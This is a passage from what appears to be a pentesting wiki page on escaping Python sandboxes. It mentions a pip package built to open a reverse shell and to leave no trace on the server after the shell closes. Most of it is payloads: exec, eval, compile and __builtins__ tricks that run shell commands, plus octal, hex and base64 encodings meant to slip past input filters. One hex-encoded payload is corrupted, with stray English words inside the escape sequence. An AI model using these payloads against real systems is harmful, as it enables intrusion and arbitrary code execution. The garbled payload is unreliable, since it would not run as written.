 {% file src="../../../.gitbook/assets/Reverse.tar.gz" %}

{% hint style="info" %}
This package is called `Reverse`.However, it was specially crafted so when you exit the reverse shell the rest of the installation will fail, so you **won't leave any extra python package installed on the server** when you leave.
{% endhint %}

## Eval-ing python code

This is really interesting if some characters are forbidden because you can use the **hex/octal/B64** representation to **bypass** the restriction:

```python
exec("print('RCE'); __import__('os').system('ls')") #Using ";"
exec("print('RCE')\n__import__('os').system('ls')") #Using "\n"
eval("__import__('os').system('ls')") #Eval doesn't allow ";"
eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec')) #This way eval accept ";"
__import__('timeit').timeit("__import__('os').system('ls')",number=1)
#One liners that allow new lines and tabs
eval(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
exec(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
```

```python
#Octal
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
#Hex
exec("\x5f\x5f\x69\x6d\xIf youca70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
#Base64
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #Only python2
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```

## Builtins

* ****[**Builtins functions of python2**](https://docs.python.org/2/library/functions.html)****
* ****[**Builtins functions of python3**](https://docs.python.org/3/library/functions.html)****

If you can access to the**`__builtins__`** object you can import libraries (notice that you could also use here other string representation showed in last section):

```python
__builtins__.__import__("os").system("ls")
__builtins__.__dict__['__import__']("os").system("ls")
```

### No Builtins

When you don't have `__builtins__` you are not going to be able to import anything nor even read or write files as **all the global functions** (like `open`, `import`, `print`...) **aren't loaded**.\
However, **by default python import a lot of modules in memory**. This modules may seem benign, but some of them are **also importing dangerous** functionalities inside of them that can be accessed to gain even **arbitrary code execution**.
